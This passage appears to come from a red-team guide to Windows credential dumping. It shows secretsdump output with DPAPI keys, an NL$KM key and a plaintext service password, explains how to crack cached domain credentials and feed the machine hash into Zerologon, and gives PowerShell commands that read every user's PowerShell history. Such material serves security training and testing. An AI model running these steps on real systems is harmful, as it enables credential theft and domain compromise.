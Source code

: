 ```bash
[*] DefaultPassword 
(Unknown User):user
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6880eb76862df7875705885938102c696717eb18
dpapi_userkey:0x828326418633117212de44bcda10806fc6765d4a
[*] NL$KM 
 0000   0B BC 2E DB A1 A7 E2 42  56 6D B8 4B 5A 37 79 A4   .......BVm.KZ7y.
 0010   53 51 75 6D 64 7F 9A BF  DC BF C2 83 F4 64 02 A6   SQumd........d..
 0020   5E E8 53 AB E5 4B 35 A4  5B 19 7E 97 E0 CA 32 6C   ^.S..K5.[.~...2l
 0030   77 68 E8 F1 C0 54 AD 7B  03 F7 BE 59 2E 59 C3 93   wh...T.{...Y.Y..
NL$KM:0bbc2edba1a7e242566db84b5a3779a45351756d647f9abfdcbfc283f46402a65ee853abe54b35a45b197e97e0ca326c7768e8f1c054ad7b03f7be592e59c393
[*] _SC_mysql 
(Unknown User):Solo1234!
[*] Cleaning up...
```

* The `Dumping cached domain logon information` section contains the Domain Cached Credentials. In order to [crack them](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials), you need to saved them in format `$DCC2$10240#username#hash`, then you can use [hashcat](https://hashcat.net).
* The section `$MACHINE.ACC` contains the computer account password (encoded in hexadecimal), as well the NT hash. It can be useful for the Zerologon attack:

INSERT LINK TO: Zerologon attack

* The section `DefaultPassword` contains the Auto-logon password. In order to get the domain and username, you need to check the `DefaultDomainName` and `DefaultUserName` entries of the `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` registry key.
* The `DPAPI_SYSTEM` section contains the master DPAPI keys of the system. These keys allow to [decrypt the user files](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords).
* The `NK$LM` give us the [key used to encrypt the Domain Cached Credentials](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/dumping-lsa-secrets-on-nt5-x64/), but since secretsdump already decrypt them is only for informational purposes.
* Finally, the entries with format `_SC_<service>` are the ones that indicates the password of users that are running services. In this case, the `mysql` service. We don't know the username of the service user, but we can check it in the computer.

```powershell
PS C:\> Get-WmiObject win32_service -Filter "name='mysql'" | select -ExpandProperty startname
CONTOSO\han
```

### **Powershell history**

Apart from the LSASS process and registry, you can also search for credentials in other places like the Powershell history of users. You can use the following commands to locate and read the Powershell history.

```powershell
(Get-PSReadlineOption).HistorySavePath # Get the Powershell history path of the current users.
gc (Get-PSReadLineOption).HistorySavePath # Read current history file
type C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt # Read current history file
Get-ChildItem C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt # Check the Powershell history of all users
```


[dc01]: PS C:\Users\Administrator\Documents> whoami
[dc01]: PS C:\Users\Administrator\Documents> hostname